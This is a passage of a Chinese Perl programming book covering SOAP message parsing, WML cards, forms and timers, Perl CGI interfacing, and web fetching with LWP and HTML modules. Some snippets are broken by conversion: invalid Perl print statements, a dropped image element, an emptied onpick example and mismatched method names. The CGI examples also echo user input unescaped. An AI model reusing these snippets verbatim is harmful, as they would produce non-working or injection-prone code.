  <starpowder:Transaction xmlns:starpowder="www.starpowder.com">5</starpowder:Transaction>
 </SOAP-ENV:Header>
 <SOAP-ENV:Body>
  <starpowder:Data xmlns:starpowder="www.starpowder.com">
   <Price>34.5</Price>
  </starpowder:Data>
 </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

现在我可以编写一个名为soap.pl的应用程序来解析这条SOAP消息。首先在soap.pl中解析soap.xml：
```perl
use SOAP::Parser;
$parser = SOAP::Parser->new();
$parser->parsefile('soap.xml');
```

要获取SOAP消息中的头部，可以使用**SOAP::Parser**模块的**getHeaders**方法。该函数返回一个数组引用，其中包含零个或多个哈希引用，每个哈希引用的结构如下：
- `soap_typeuri`: 头部的命名空间
- `soap_typename`: 头部元素的名称
- `content`: 头部元素的内容

要获取这条SOAP消息的体，可以使用**SOAP::Parser**模块的**getBody**方法，该方法会返回一个包含体内容的哈希引用：
```perl
use SOAP::Parser;
$parser = SOAP::Parser->new();
$parser->parsefile('soap.xml');
$headers = $parser->get_headers();
$body = $parser->get_body();
```

最后，我会获取**getHeaders**返回的数组的第一个元素，也就是那个哈希引用：
```perl
use SOAP::Parser;
$parser = SOAP::Parser->new();
$parser->parsefile('soap.xml');
$headers = $parser->get_headers();
$body = $parser->get_body();
$hashref = $$headers[0];
```

现在我可以像下面这样输出头部和体哈希中的所有内容：
```perl
use SOAP::Parser;
$parser = SOAP::Parser->new();
$parser->parsefile('soap.xml');
$headers = $parser->get_headers();
$body = $parser->get_body();
$hashref = $$headers[0];
while (($key, $value) = each(%$hashref)) {
 print "head: $key => $value\n";
}
while (($key, $value) = each(%$body)) {
 print "body: $key => $value\n";
}
```
 这个程序解析 soap.xml 的方式如下：
```perl
%perl soap.pl
head: soap_typename => Transaction
head: content => 5
head: soap_typeuri => www.starpowder.com
body: soap_typename => Data
body: Price => 34.5
body: soap_typeuri => www.starpowder.com
```
如你所见，上述输出包含了 soap.xml 中 SOAP 消息的所有部分：
```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="urn:schemas-xmlsoap-org:soap.v1" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Header>
<starpowder:Transaction xmlns:starpowder="www.starpowder.com">5</starpowder:Transaction>
</SOAP-ENV:Header>
<SOAP-ENV:Body>
<starpowder:Data xmlns:starpowder="www.starpowder.com">
<Price>34.5</Price>
</starpowder:Data>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
这能让我们对 SOAP 的工作方式有个大致了解，但这一领域还有非常多值得深入研究的内容。想要了解更多细节，可以查阅 W3C 官网的 SOAP 相关文档，或是相关领域的优秀书籍。
## 第27章 XML：CGI、SOAP 与 WML
### WML：创建超链接
“请问，”新手程序员问道，“WML 支持超链接吗？”
“当然支持，”你回答道，“过来坐，我给你讲讲。”
和 HTML 一样，WML 支持使用**<a>**元素来创建超链接，你可以通过**href**属性指定想要跳转的目标位置。
下面是一个可以跳转到 Apache 软件官网主页的示例：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Using Hyperlinks">
<p align="center"><b>Using Hyperlinks</b></p>
<p>
Want to see the Apache Software WML home page? Just click <a href="http://www.apachesoftware.com/wml/index.wml"> here </a>.
</p>
</card>
</wml>
```
你可以在图 27.10 中看到这段 WML 的运行结果。当用户点击超链接后，浏览器就会跳转到 Apache 软件的 WML 官方主页。

### WML：处理文本输入
“我对 WML 这东西不太了解，”新手程序员说道，“毕竟我用 HTML 的文本框就能处理文本输入——WML 呢？”
“一样的，”你回答道，“WML 也能处理文本输入，完全没问题。”
WML 支持使用<input>元素。和 HTML 类似，如果你将这个元素的 type 属性设置为 "text"，就可以显示一个文本输入框——不过并非所有支持 WML 的设备都支持这个元素。
下面是一个示例：
在这个例子中，我会让用户在文本框中输入内容，当他/她点击标有“Go”的按钮后，浏览器会显示输入的内容。首先我们要创建文本框，并将其命名为 "data"：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Using Text Input">
<p align="center"><b>Using Text Input</b></p>
<p>
Enter some text and click Go:
<input type="text" name="data"/>
. . .
</p>
</card>
</wml>
```
当用户点击 Go 按钮时，我们需要某种方式来显示用户在文本框中输入的内容。在这个例子中，我会在第二个卡片中实现这个功能，因此我会添加必要的代码，让用户在点击 Go 按钮时能跳转到第二个卡片：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Using Text Input">
<p align="center"><b>Using Text Input</b></p>
<p>
Enter some text and click Go:
<input type="text" name="data"/>
<do type="accept" label="Go">
<go href="#Card2"/>
</do>
</p>
</card>
```
在本例中，我已将文本框命名为 "data"。在 WML 中，这意味着我可以在第二个卡片中通过**$(data)**引用文本框中的内容，像这样显示用户输入的内容：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Using Text Input">
<p align="center"><b>Using Text Input</b></p>
<p>
Enter some text and click Go:
<input type="text" name="data"/>
<do type="accept" label="Go">
<go href="#Card2"/>
</do>
</p>
</card>
<card id="Card2" title="Using Text Input">
<p align="center"><b>Using Text Input</b></p>
<p>
You entered: $(data).
</p>
</card>
</wml>
```
完成以上步骤即可；第一个卡片的效果如图 27.11 所示。当你在第一个卡片的文本框中输入内容并点击 Go 按钮后，浏览器会跳转到第二个卡片，显示你输入的内容，效果如图 27.12 所示。注意本节还介绍了 WML 变量的概念，比如**$(data)**。这种直接处理变量的能力让 WML 的功能更加强大。此外还有**<setvar>**元素，可以用它来设置变量的值，示例如下：
```xml
<setvar name="data" value="Hello!" />
```

图 27.11 处理文本输入。

图 27.12 显示输入的文本。
### WML：使用选择元素
“WML 支持选择控件吗？”新手程序员问道。
“当然支持，”你回答道，“它支持**<select>**元素，还有你需要的**<option>**元素。”
和 HTML 一样，WML 支持使用**<select>**元素来显示选择控件。选择控件的工作方式与下拉列表框非常类似。下面是一个使用选择控件的示例：当用户在控件中完成选择后，他可以点击 Go 按钮，浏览器就会跳转到一个新的卡片，显示所选内容。首先我们来创建选择控件，将其命名为 "data"：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1_1.xml">
<wml>
<card id="Card1" title="Using Select Controls">
<p align="center"><b>Using Select Controls</b></p>
<p>Make a selection and click Go.</p>
<select name="data">
. . .
</select>
</card>
```
和 HTML 中一样，你可以使用**<option>**元素来指定选择控件中的选项：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1_1.xml">
<wml>
<card id="Card1" title="Using Select Controls">
<p align="center"><b>Using Select Controls</b></p>
<p>Make a selection and click Go.</p>
<select name="data">
<option value="pizza">Pizza</option>
<option value="steak">Steak</option>
<option value="tacos">Tacos</option>
</select>
</card>
```
现在我来添加 Go 按钮，点击它会跳转到新的卡片（卡片2）：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1_1.xml">
<wml>
<card id="Card1" title="Using Select Controls">
<p align="center"><b>Using Select Controls</b></p>
<p>Make a selection and click Go.</p>
<select name="data">
<option value="pizza">Pizza</option>
<option value="steak">Steak</option>
<option value="tacos">Tacos</option>
</select>
<do type="accept" label="Go">
<go href="#Card2"/>
</do>
</card>
```
在第二个卡片中，我会显示选择控件中的值，该值可以通过**$(data)**来引用。这个变量会存储当前选中项对应的**<option>**元素的**value**属性中的字符串。也就是说，显示当前选中内容的 WML 代码如下所示：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1_1.xml">
<wml>
```


```xml <card id="Card1" title="Using Select Controls"> <p align="center"><b>Using Select Controls</b></p> <p>Make a selection and click Go.</p> <select name="data"> <option value="pizza">Pizza</option> <option value="steak">Steak</option> <option value="tacos">Tacos</option> </select> <do type="accept" label="Go"> <go href="#card2"/> </do> </card> <card id="card2" title="Card 2"> <p align="center"><b>Using Select Controls</b></p> <p> You chose $(data) for dinner. </p> </card> </wml> ```
你可以在图27.13中看到它的运行效果，我在其中选择了“牛排”选项。点击“前往”按钮会跳转到第二张卡片，在第二张卡片中，你会看到你做出的选择，如图27.14所示。

选择控件还有一个实用特性，即**<option>**元素的**onpick**属性，它允许用户在单选控件中选择选项时跳转到新位置。例如，我就可以将多个**<option>**元素的**onpick**属性设置为其他卡片的地址，当用户选择其中一个选项时，浏览器就会跳转到对应的卡片：
```xml <?xml version="1.0"?> <wml> <card id="Card4" title="Using onpick"> <p align="center"><b>"Card 4"</b></p> </card> </wml> ```
## 第27章 XML：CGI、SOAP与WML

### WML：创建表格
新手程序员回来说：“好像WML和HTML有很多相同的元素，WML里也能像HTML一样做表格吗？”“当然可以，”你说，“搬个凳子过来，我给你讲讲。”

和HTML一样，你可以在WML中创建表格，实际上用的是相同的标记。你需要用到这几个WML元素：<table>、<tr>和<td>。下面是一个示例——注意这个WML表格和HTML表格有多么相似：
```xml <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml> <card id="Card1" title="Using Tables"> <p align="center"><b>Using Tables</b></p> <p align="center"> <table columns="3"> <tr> <td><b>First Name</b></td> <td><b>Last Name</b></td> <td><b>Title</b></td> </tr> <tr> <td>Fred</td> <td>Simpson</td> <td>Tycoon</td> </tr> <tr> <td>Edward</td> <td>Collingsworth</td> <td>Adventurer</td> </tr> <tr> <td>Nancy</td> <td>Sherringford</td> <td>Author</td> </tr> </table> </p> </card> </wml> ```
你可以在图27.15中看到这个包含表格的完整WML文档。

图27.15 创建WML表格。
### WML：创建定时器
“到目前为止，”新手程序员说，“除了牌组和卡片之外，WML看起来很像HTML的一个子集。你能给我讲讲WML里有但HTML里没有的东西吗？”“当然可以，”你说，“WML有很多独有的元素，比如我们看看定时器吧。”

WML文档会被划分为多个卡片以节省显示空间，卡片之间跳转的一种方式是点击导航按钮，还有另一种方式——你可以使用*定时器*。WML定时器会计量一段时间，当计时结束时，浏览器会执行相应操作，比如跳转到新卡片，这样用户只要看着屏幕就能浏览完牌组里的所有卡片。

例如，我可以将卡片的**ontimer**属性设置为另一个卡片的ID，当定时器计时结束时，浏览器就会跳转到该卡片：
```xml <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml> <card id="Card1" ontimer="#Card2" title="Using Timers"> <p align="center"><b>Using Timers</b></p> <timer value="50"/> <p> In five seconds, you'll see card 2! </p> </card> <card id="Card2" title="Welcome"> <p> This is card 2! </p> </card> </wml> ```

图27.16 使用WML定时器。
打开这个牌组后，你会看到第一张卡片，如图27.16所示。五秒计时结束后，浏览器会自动跳转到第二张卡片。

### 即时解决方案
如何创建定时器？你需要使用**<timer>**元素，并通过**value**属性为其指定计时周期，单位是十分之一秒。示例如下，我将这张卡片的定时器周期设置为5秒，并在第一张卡片添加提示文本，告知用户5秒后会看到第二张卡片：
```xml <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml> <card id="Card1" ontimer="#Card2" title="Using Timers"> <p align="center"><b>Using Timers</b></p> <timer value="50"/> <p> In five seconds, you'll see card 2! </p> </card> <card id="Card2" title="Welcome"> <p> This is card 2! </p> </card> </wml> ```
### WML：处理图片
新手程序员问：“那图片呢？WML里能像HTML一样显示图片吗？”“可以，”你说，“但有个限制条件。”

WML默认不支持显示图片，除非图片是特殊的WBMP格式——WBMP格式为黑白（无灰度）图像，每个像素仅占1比特。

以下是一些互联网上的WBMP相关资源：
- www.creationflux.com/laurent/wbmp.html——一款可用于创建WBMP文件的Adobe Photoshop插件。
- www.phnet.fi/public/jiikoo/——一款可生成WBMP文件的绘图程序。
- www.taraflops.com/wbmp——一款在线转换工具，可将BMP、GIF、JPG文件转换为WBMP格式。你只需要打开该页面，点击“浏览”按钮找到要转换的图片文件，再点击“转换”按钮即可。

和HTML一样，你可以使用元素来显示图片，并为该元素的**alt**、**src**、**width**和**height**属性赋值。下面是一个用于显示我为本示例创建的WBMP图片的WML文档示例：
```xml <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml> <card id="Card1" title="Using Images"> <p align="center"><b>Using Images</b></p> <p align="center">  </p> </card> </wml> ```
你可以在图27.17中看到这张WBMP图片。

### WML：与Perl交互
“好的，”新手程序员说，“我知道WML是一门可行的语言，但怎么把它和Perl集成起来呢？”你说：“有好几种方法可以实现——搬个凳子过来。”

由于你可以通过WML导航到不同的URL，因此可以实现与Perl的交互，甚至可以向Perl脚本发送数据。下面是一个示例文件getdata.wml；在本例中，我将文本控件中的数据追加到URL末尾，从而发送给Perl脚本，这是向Perl脚本发送数据的典型方式。我会将该数据命名为“text1”：
```xml <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml> <card id="Card1" title="Interfacing to Perl"> <p align="center"><b>Interfacing to Perl</b></p> ```

想让Perl读取你输入的文本？请在此输入文本：<input type="text" name="data"/> <do type="accept" label="前往"> <go href= "http://www.starpowder.com/steve/cgi/wmlreader.cgi?text1=$(data)"/> </do>
你可以在图27.18中看到这个WML文档。我会用一个名为wmlreader.cgi的Perl CGI脚本来处理该WML文档中的数据，这个脚本会读取接收到的文本，并在新的WML文档中将其展示出来。
首先，我要把要返回给浏览器的WML数据的MIME类型设置为"application/xml"（你也可以使用官方的WML MIME类型"text/vnd.wap.wml"）：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header(-type=>"application/xml");
```
图27.18 连接Perl
接下来我会读取"text1"中的数据，并将其展示在返回给浏览器的WML文档中：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
print $co->header(-type=>"application/xml");
print "<?xml version = \"1.0\"?>", "<!DOCTYPE wml PUBLIC '-//WAPFORUM//DTD WML 1.1//EN' 'http://www.wapforum.org/DTD/wml_1.1.xml'>", "<wml>", "<card id='Card1' title='Results'>", if ($co->param()) { print "<p align='center'><b>Perl Interface</b></p>", "You entered this text: ", $co->param('text1'); } else { print "Sorry, I did not see any text."; } print "</card></wml>";
```
你可以在Klondike浏览器的图27.19中看到这个脚本的运行结果。如你所见，我们已经实现了WML与Perl的连接。实际上，还有更简单的方法实现这一功能：我们可以使用WML的<postfield>元素。具体内容请参阅下一节。
图27.19 在WML浏览器中查看Perl脚本的运行结果
### WML：使用表单连接Perl
在上一节中，我们通过将需要发送给Perl脚本的数据附加到其URL末尾的方式，实现了Perl与WML的连接。但这种方式要求你手动对所有要发送给Perl脚本的数据进行编码。现在有更简单的方法：你可以使用WML的**<postfield>**元素，它能够创建与HTML表单等效的WML表单。下面我来演示如何修改上一节中的getdata.wml文档以使用**<postfield>**元素：在这种情况下，你需要将**name**属性设置为要关联数据的名称，将**value**属性设置为数据本身：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Interfacing to Perl">
<p align="center"><b>Interfacing to Perl</b></p>
<p>
Want to have Perl read some text?
</p>
<p>
Enter your text here: <input type="text" name="data"/>
<do type="accept" label="Go">
<go method="post" href= "http://www.starpowder.com/steve/cgi/wmlreader.cgi">
<postfield name="text1" value="$(data)"/>
</go>
</do>
</p>
</card>
</wml>
```
这个版本的getdata.wml和上一节中的版本功能完全相同。当你在这个文档的文本控件中输入内容并点击Go按钮时，会得到和图27.19一致的运行结果。如果你只需要向Perl脚本发送一条数据，这个方法完全够用；但如果你要发送多条数据呢？答案请参阅下一节。
### WML：向Perl传递多个参数
**“嘿，”**新手程序员说道，**“我想把两个WML文本控件的内容发送给Perl脚本——WML里有没有办法实现这个功能啊？”**
**“当然有，”**你回答道，**“你只需要使用多个`<postfield>`元素就可以了。”**
在上一节中，我们了解到可以使用WML的`<postfield>`元素向Perl CGI脚本提交数据。事实上，你可以在`<go>`元素中使用任意多个`<postfield>`元素。举个例子，我在上一节的WML文档基础上稍作修改，为额外要发送的文本设置名称为"text2"，就可以发送更多文本内容：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Interfacing to Perl">
<p align="center"><b>Interfacing to Perl</b></p>
<p>
Want to have Perl read some text?
</p>
<p>
Enter your text here: <input type="text" name="data"/>
<do type="accept" label="Go">
<go method="post" href="http://www.starpowder.com/steve/cgi/wmlreader2.cgi">
<postfield name="text1" value="$(data)"/>
<postfield name="text2" value="Hello again!"/>
</go>
</do>
</p>
</card>
</wml>
```
我还可以修改接收这些新数据的Perl脚本，让它现在能够处理并展示两条文本内容：
```perl
#!/usr/local/bin/perl
use CGI;
$co = new CGI;
```
## 第27章 XML：CGI、SOAP与WML
```perl
print $co->header(-type=>"application/xml");
print "<?xml version = \"1.0\"?>", "<!DOCTYPE wml PUBLIC '-//WAPFORUM//DTD WML 1.1//EN' 'http://www.wapforum.org/DTD/wml_1.1.xml'>", "<wml>", "<card id='Card1' title='Results'>", if ($co->param()) { print "<p align='center'><b>Perl Interface</b></p>", "You entered this text: ", $co->param('text1'), " and ", $co->param('text2'); } else { print "Sorry, I did not see any text."; } print "</card></wml>";
```
全部工作就完成了。你可以在图27.20中看到运行结果，在这个例子里我们处理了从WML文档发送过来的多条数据。
图27.20 连接WML与Perl时处理多条数据
## 第28章
### 用代码处理Web
| 如果你需要即时解决以下问题： | 参阅页码： |
| --- | --- |
| 获取并解析网页 | 1215 |
| 获取网页中的链接 | 1217 |
| 使用**LWP::UserAgent**和**HTTP::Request**获取网页 | 1219 |
| 使用**IO::Socket**获取网页 | 1221 |
| 创建镜像站点 | 1223 |
| 通过代码提交HTML表单 | 1224 |
| 使用**LWP::Simple** | 1225 |
| 使用**LWP::UserAgent** | 1227 |
| 使用**IO::Socket** | 1228 |
| 创建迷你Web服务器 | 1231 |
| 处理在线用户注册 | 1233 |
### 深入解析
在本章中，我将介绍如何使用Perl代码处理Web相关任务。本章中的程序不会通过浏览器处理Web，而是直接使用LWP（功能强大的libwww-perl库）、HTML、HTTP等模块来完成相关操作。如果你的Perl安装包没有自带这些模块，你可以从CPAN获取它们；具体方法请参阅第14章的“安装模块”主题。这些模块也适用于MS-DOS系统；除了迷你Web服务器之外，你可以从MS-DOS环境中运行本章的所有示例。
#### HTML、HTTP和LWP模块
在本章的多数内容中，我都会使用**HTML**、**HTTP**和**LWP**模块来处理Web相关任务，因此了解这些模块库中可用的模块是很有必要的。以下是这些模块库当前的模块列表，你可以从CPAN获取它们：
- **HTML::AsSubs**——使用函数创建HTML语法树
- **HTML::Base**——以面向对象的方式创建页面
- **HTML::Element**——创建HTML解析树
- **HTML::Embperl**——在HTML中嵌入Perl代码
- **HTML::Entities**——创建HTML实体
- **HTML::EP**——创建模块化、可扩展的Perl嵌入内容
- **HTML::Filter**——通过解析器过滤HTML
- **HTML::FormatPS**——将HTML格式化为PostScript文本
- **HTML::Formatter**——将HTML格式化为纯文本或PostScript文本
- **HTML::FormatText**——将HTML格式化为纯文本
- **HTML::HeadParser**——解析HTML头部
- **HTML::LinkExtor**——从HTML页面中提取链接
- **HTML::Mason**——使用模块化构建块构建网站
- **HTML::Parse**——解析HTML页面
- **HTML::Parser**——解析SGML
- **HTML::ParseForm**——使用模板解析HTML表单
- **HTML::QuickCheck**——验证HTML页面


- **HTML::Simple**—支持可生成HTML的函数
- **HTML::SimpleParse**—支持简易HTML解析器
- **HTML::Stream**—创建HTML输出流
- **HTML::Subtext**—使用HTML模板执行文本替换
- **HTML::Table**—创建HTML表格
- **HTML::TableLayout**—支持面向对象的布局管理器
- **HTML::TreeBuilder**—构建HTML语法树
- **HTML::Validator**—使用nsgmls和libwww校验HTML
- **HTTP::Cookies**—处理Cookie
- **HTTP::Daemon**—创建简易HTTP服务器
- **HTTP::Date**—使用HTTP日期格式转换日期
- **HTTP::Headers**—支持HTTP消息头类
- **HTTP::Message**—支持HTTP请求与响应的基类
- **HTTP::Negotiate**—指定协商内容
- **HTTP::Request**—支持HTTP请求类
- **HTTP::Request::Form**—基于表单创建**HTTP::Request**对象
- **HTTP::Response**—支持HTTP响应类
- **HTTP::Status**—处理状态码
- **HTTPD::Access**—处理服务器访问控制文件
- **HTTPD::Authen**—执行HTTP认证
- **HTTPD::Config**—处理服务器配置文件
- **HTTPD::GroupAdmin**—处理服务器组数据库
- **HTTPD::UserAdmin**—处理服务器用户数据库
- **LWP::Debug**—支持LWP调试器
- **LWP::MediaTypes**—处理媒体类型
- **LWP::Parallel**—支持HTTP和FTP访问
- **LWP::Protocol**—创建URL方案
- **LWP::RobotUA**—支持面向机器人的UserAgent接口
- **LWP::Simple**—支持libwww-perl的简易接口
- **LWP::UserAgent**—创建可发送HTTP请求的用户代理

本章大部分内容都与获取和处理Web网页有关。我会介绍多种下载网页的方式——使用**LWP::Simple**、使用**LWP::UserAgent**模拟Web浏览器、使用**LWP::Simple**的**镜像**方法，甚至使用**IO::Socket**直接连接互联网服务提供商（ISP）的HTTP端口（80端口）来下载网页。下载完网页后，我们还会学习如何解析网页，包括如何从网页中提取链接或其他元素。我还会介绍如何*批量*下载网页来构建网站镜像。除了在代码中下载和操作网页，我还会介绍如何将表单提交到CGI脚本的过程自动化。如果你希望用户能够通过命令行运行的应用与CGI脚本交互，或者需要连续传入多组数据反复调用CGI脚本，自动化就能派上用场。本章还会介绍如何创建微型Web服务器。这个Web服务器会使用**HTTP::Daemon**模块搭建一个运行中的HTTP服务器。在本章中，我会创建一个拥有独立URL的Web服务器，该服务器会返回一个Web网页。

### 处理在线用户注册
现在我已经可以完成本书最后一个合适的应用了——毕竟我们已经编写了这么多脚本——在线用户注册。这个应用允许用户通过自己在命令提示符下运行的程序完成在线注册，无需使用Web浏览器、邮件程序或FTP程序。用户的主机只需要连接到互联网即可。开发这个应用花了我不少心思，因为我希望用户几乎可以在任何命令行应用中运行它，并自动上传注册信息，但**LWP**、**HTTP**、**HTML**、**MAIL**和**FTP**模块并不包含在标准Perl移植版本中，因此我无法假定这些模块可供使用。另一方面，**IO::Socket**在标准Perl移植版本中是可用的，所以我选用了它。不过如果使用套接字的话，你似乎需要在互联网服务提供商（ISP）上运行一个持续运行的服务器应用来处理客户端发送的用户注册信息请求。解决方案是使用ISP自带的Web服务器软件，它始终在80端口监听请求。因此本章中的应用会连接到ISP的Web服务器，模拟Web浏览器，将包含用户注册信息的查询字符串发送到自定义的CGI脚本。该脚本会解码用户注册信息，并将其追加到注册条目日志文件中。这就是实现用户注册的方法。以上就是我们需要的全部介绍，现在可以开始看代码了。

### 即时解决方案
> “嗯，”新手程序员说，“我知道可以用**LWP::Simple**模块的**获取**方法来下载网页，但显示网页又是另一回事了。我可以剥离所有HTML标签，但那种带项目符号列表的格式之类的怎么处理呢？”你回答说：“想自己编写Web浏览器？可以啊，你可以格式化HTML：直接用**HTML::FormatText**就行。”

### 获取并解析网页
为了展示这个过程如何运作，我会用如下方式下载CPAN的主页：
```use LWP::Simple;
$html = get("http://www.cpan.org/");
```

随后，我使用**HTML::FormatText**创建了一个新的格式化器：
```use LWP::Simple;
use HTML::TreeBuilder;
use HTML::FormatText;
$html = get("http://www.cpan.org");
```
```$formatter = HTML::FormatText->new;
```

如果你愿意，还可以为格式化器指定左右边距，方式如下：
```$formatter = HTML::FormatText->new(leftmargin => 10, rightmargin => 70);
```

该格式化器只能处理已解析的HTML，因此我使用**HTML::TreeBuilder**解析HTML（在之前的版本中，你使用的是**HTML::Parse**，但该模块现在已被弃用）：
```use LWP::Simple;
use HTML::TreeBuilder;
use HTML::FormatText;
$html = get("http://www.cpan.org");
$formatter = HTML::FormatText->new;
$tree_builder = HTML::TreeBuilder->new;
$tree_builder->parse($html);
```

解析后的HTML现在保存在**$tree_builder**对象中，因此我调用该对象的**格式化器**对象的**格式化**方法，将网页格式化为纯文本并打印输出：
```use LWP::Simple;
use HTML::TreeBuilder;
use HTML::FormatText;
$html = get("http://www.cpan.org");
$formatter = HTML::FormatText->new;
$tree_builder = HTML::TreeBuilder->new;
$tree_builder->parse($html);
$text = $formatter->format($tree_builder);
print $text;
```

现在，当你运行这个程序时，它会下载网页，将其格式化为纯文本，并如下所示显示：
```% perl formatter.pl
CPAN: Comprehensive Perl Archive Network
===========================================
Welcome to CPAN! Here you will find
All Things Perl.
CPAN is the Comprehensive Perl Archive Network.
Comprehensive: the aim . . .
the French CPAN sites, instead of going to USA.
* documentation
* standard documentation
*Browsable: [HTML] . . .
```

### 获取网页中的链接
“我正在为大老板做网站地图，”新手程序员说。“我能轻松提取网页中的所有链接吗？”新手程序员问道。“当然可以，”你回答，“只要用**HTML::LinkExtor**就行。”**HTML::LinkExtor**模块允许你通过调用回调函数从网页中提取链接。为了展示这个过程如何运作，我会创建一个示例，从CPAN主页中提取链接。我首先下载该网页：
```use LWP::Simple;
$html = get("http://www.cpan.org");
```

随后，我创建一个**HTML::LinkExtor**对象，并将其构造函数传递一个名为**handle_links**的回调函数引用：
```use LWP::Simple;
use HTML::LinkExtor;
$html = get("http://www.cpan.org");
$link_extor = HTML::LinkExtor->new(\&handle_links);
```

当我使用**HTML::LinkExtor**模块的**解析**方法时，回调函数会在页面中的每个链接处被调用：
```use LWP::Simple;
use HTML::LinkExtor;
$html = get("http://www.cpan.org");
$link_extor = HTML::LinkExtor->new(\&handle_links);
$link_extor->parse($html);
```

回调函数**handle_links**被调用时会传入两个参数：一个是网页中发现的标签类型（例如锚标签对应**A**），另一个是键为

# 第28章 在代码中处理Web内容 是该标签的属性（例如链接中的**HREF**属性），这些属性的值就是这些属性的配置。在本例中，我会通过查找带有**HREF**属性的**<A>**标签来搜索超链接，并在**handle_links**中逐一显示每个超链接：
```perl
use LWP::Simple;
use HTML::LinkExtor;
$html = get("http://www.cpan.org");
$link_extor = HTML::LinkExtor->new(\&handle_links);
$link_extor->parse($html);
sub handle_links {
    ($tag, %links) = @_;
    if ($tag eq 'a') {
        foreach $key (keys %links) {
            if ($key eq 'href') {
                print "Found a hyperlink to $links{$key}.\n";
            }
        }
    }
}
```
这段代码的运行结果会输出CPAN主页的所有链接：
```perl
% perl findlinks.pl
Found a hyperlink to modules/index.html.
Found a hyperlink to scripts/index.html.
Found a hyperlink to ports/index.html.
Found a hyperlink to src/index.html.
Found a hyperlink to clpa/index.html.
Found a hyperlink to RECENT.html.
Found a hyperlink to http://search.cpan.org/recent.
Found a hyperlink to SITES.html.
Found a hyperlink to http://mirror.cpan.org/.
Found a hyperlink to http://kobesearch.cpan.org/.
```
- 找到指向 http://www.perldoc.com/ 的超链接。
- 找到指向 http://search.cpan.org/ 的超链接。
- 找到指向 http://wait.cpan.org/ 的超链接。
- 找到指向 misc/cpan-faq.html 的超链接。
- 找到指向 http://lists.cpan.org/ 的超链接。
- 找到指向 http://bookmarks.cpan.org/ 的超链接。
- 找到指向 mailto:cpan@perl.org 的超链接。
- 找到指向 disclaimer.html 的超链接。
- 找到指向 http://validator.w3.org/check?uri=http%3A%2F%2Fwww.cpan.org%2Findex.html 的超链接。
- 找到指向 http://www.csc.fi/english/funet/ 的超链接。

| 相关解决方案 | 所在页码 |
| --- | --- |
| 安装模块 | 600 |

### 使用LWP::UserAgent和HTTP::Request获取网页
新手程序员说：“我知道用**LWP::Simple**就能轻松下载网页，不过还有其他方法吗？”
“当然有，这可是Perl，”你回答道，“你可以用**LWP::UserAgent**模块模拟浏览器，先去冲杯咖啡，我们慢慢聊。”

你可以使用**LWP::UserAgent**模块模拟Web浏览器，该模块支持发送和处理HTTP请求。**LWP::UserAgent**从libwww-perl库中继承了**HTTP::Request**、**HTTP::Response**和**LWP::Protocol**三个类。举个例子，我会向CPAN Web服务器发送HTTP **GET**请求，获取CPAN的主FAQ索引页，其URL为**www.cpan.org/doc/FAQs/index.html**。

首先，我们按照如下方式创建一个新的HTTP用户代理对象：
```perl
use LWP::UserAgent;
$user_agent = new LWP::UserAgent;
```

接下来，我们使用HTTP模块创建一个HTTP **GET**请求，代码如下：
```perl
use LWP::UserAgent;
$user_agent = new LWP::UserAgent;
$request = new HTTP::Request('GET', 'http://www.cpan.org/doc/FAQs/index.html');
```

现在，我们使用用户代理的**request**方法执行该HTTP请求，获取网页内容：
```perl
use LWP::UserAgent;
$user_agent = new LWP::UserAgent;
$request = new HTTP::Request('GET', 'http://www.cpan.org/doc/FAQs/index.html');
$response = $user_agent->request($request);
```

**request**方法会返回一个哈希引用，该哈希包含以下键：**_request**、**_protocol**、**_content**、**_headers**、**_previous**、**_rc**和**_msg**。网页的实际HTML内容存储在哈希的**_content**键中，因此我们可以将网页内容存入file.txt文件，代码如下：
```perl
use LWP::UserAgent;
$user_agent = new LWP::UserAgent;
